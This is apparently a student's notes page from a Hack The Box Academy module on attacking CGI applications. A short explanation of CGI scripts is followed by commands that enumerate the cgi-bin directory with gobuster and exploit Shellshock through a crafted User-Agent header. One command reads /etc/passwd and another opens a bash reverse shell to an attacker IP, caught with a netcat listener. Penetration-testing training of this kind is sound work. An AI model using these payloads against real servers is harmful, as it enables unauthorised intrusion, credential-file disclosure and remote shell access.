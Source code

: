 A [Common Gateway Interface (CGI)](https://www.w3.org/CGI/) is used to help a web server render dynamic pages and create a customized response for the user making a request via a web application. CGI applications are primarily used to access other applications running on a web server. CGI is essentially middleware between web servers, external databases, and information sources. CGI scripts and programs are kept in the `/CGI-bin` directory on a web server and can be written in C, C++, Java, PERL, etc. CGI scripts run in the security context of the web server. They are often used for guest books, forms (such as email, feedback, registration), mailing lists, blogs, etc. These scripts are language-independent and can be written very simply to perform advanced tasks much easier than writing them using server-side programming languages.

CGI scripts/applications are typically used for a few reasons:

- If the webserver must dynamically interact with the user
- When a user submits data to the web server by filling out a form. The CGI application would process the data and return the result to the user via the webserver

![](https://academy.hackthebox.com/storage/modules/113/cgi.gif)

```
L3pr3ch4un@htb[/htb]$ gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
L3pr3ch4un@htb[/htb]$ curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
L3pr3ch4un@htb[/htb]$ curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.199/7777 0>&1' http://10.129.205.27/cgi-bin/access.cgi
L3pr3ch4un@htb[/htb]$ sudo nc -lvnp 7777
```
